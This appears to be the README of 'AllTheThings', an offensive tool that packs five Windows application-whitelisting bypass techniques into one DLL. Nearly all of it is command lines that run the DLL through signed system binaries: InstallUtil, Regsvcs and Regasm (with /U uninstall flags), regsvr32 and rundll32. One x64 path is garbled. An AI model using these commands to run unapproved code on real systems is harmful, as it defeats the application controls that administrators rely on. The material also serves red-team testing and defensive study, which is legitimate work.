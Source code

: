 # AllTheThings

###Includes 5 Known Application Whitelisting Bypass Techniques in One File.

### 1. InstallUtil.exe

### 2. Regsvcs.exe

### 3. Regasm.exe

### 4. regsvr32.exe

### 5. rundll32.exe



#Usage:
##1. 
    x86 - C:\Windows\Microsoft.NET\Framework\v4.0.30319\InstallUtil.exe /logfile= /LogToConsole=false /U AllTheThings.dll

    x64 - C:\Windows\Microsoft.NET\Framework64\v4.0.3031964\InstallUtil.exe /logfile= /LogToConsole=false /U AllTheThings.dll
##2. 

    x86 C:\Windows\Microsoft.NET\Framework\v4.0.30319\regsvcs.exe AllTheThings.dll

    x64 C:\Windows\Microsoft.NET\Framework64\v4.0.30319\regsvcs.exe AllTheThings.dll
##3. 

    x86 C:\Windows\Microsoft.NET\Framework\v4.0.30319\regasm.exe /U AllTheThings.dll

    x64 C:\Windows\Microsoft.NET\Framework64\v4.0.30319\regasm.exe /U AllTheThings.dll

##4. 

    regsvr32 /s  /u AllTheThings.dll -->Calls DllUnregisterServer

    regsvr32 /s AllTheThings.dll --> Calls DllRegisterServer
    
##5. 

    rundll32 AllTheThings.dll,EntryPoint
